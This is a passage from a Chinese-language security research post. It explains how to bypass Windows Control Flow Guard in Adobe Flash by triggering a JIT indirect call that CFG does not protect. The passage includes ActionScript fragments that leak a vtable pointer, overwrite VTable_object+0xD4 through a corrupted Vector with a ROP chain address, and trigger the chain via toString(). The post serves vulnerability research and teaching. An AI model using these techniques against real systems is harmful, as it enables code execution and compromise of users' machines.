 然后BaseExecMgr::endCoerce调用JIT生成的函数（该函数我们在上上段中讲述过，其中包含未受CFG保护的间接调用）：

```
Atom BaseExecMgr::endCoerce(MethodEnv* env, int32_t argc, uint32_t *ap, MethodSignaturep ms)
{
[...]
switch(bt){
[...]
default:
{
    STACKADJUST(); // align stack for 32-bit Windows and MSVC compiler
    const Atom i = (*env->method->_implGPR)(env, argc, ap);
[...]

```

如下是BaseExecMgr::endCoerce的二进制代码：

![](http://drops.javaweb.org/uploads/images/c982cae00688e2b0e81ae7069523042a84541dc1.jpg)

0x04 利用
=====

我们已经了解了如何触发一个未受CFG保护的间接调用，现在我们需要做的是在VTable_object + 0xD4位置放一个虚假的MethodEnv对象。有图有真相，我们可以在下图中直观地看到对象之间的初始状态以及调用关系（点击图片可放大）：

![](http://drops.javaweb.org/uploads/images/b04b5c806e45186b636608edf1708459d75706dc.jpg)

在ActionScript利用代码中，我们通过Nicolas Joly的基于Number对象的读取方法可以获取到ByteArray object + 8位置的指针，如上一篇博文中提到的：

```
var vtable_object:uint = leak_8_bytes(bytearray_object_pointer + 8);

```

然后指针值 + 0xD4得到我们想覆盖的目标地址，之后再计算出Vector对象（其长度我们已经覆盖为0xffffffff）中我们需要使用的定位，以写入目标地址：

```
var target_address:uint = vtable_object + 0xd4;
/* 0x28: offset of the first element within the Vector object */
var idx: uint = (target_address - (address_of_vector + 0x28)) / 4;
this.the_vector[idx] = address_of_rop_chain >> 3;

```

我们将VTable_object + 0xD4位置存放的指针覆盖为ROP链（存储在上面的ActionScript代码片中的`address_of_rop_chain`变量中）的地址。同时注意我将`address_of_rop_chain`右移了三次；这是因为`address_of_rop_chain`是unit类型的，而ActionScript虚拟机内部存储机制中，unit类型的值是要先左移3次然后再异或6（6代表“Integer”标签---|我们上一篇博文中提到过）。

最后，我们只需调用下ByteArray对象（存储于this.the_vector[0]）的toString()方法，就可以触发JIT生成代码中的未经CFG保护的间接调用，然后就会启动我们的ROP链。

```
new Number(this.the_vector[0].toString());

```

注意,未保护的间接调用CALL EAX 调用我们控制的函数指针时，ECX寄存器就指向我们的ROP链，因此pivoting stack(一种栈转换技术--指向的堆空间变成新的栈)开始执行ROP链就变得很简单。
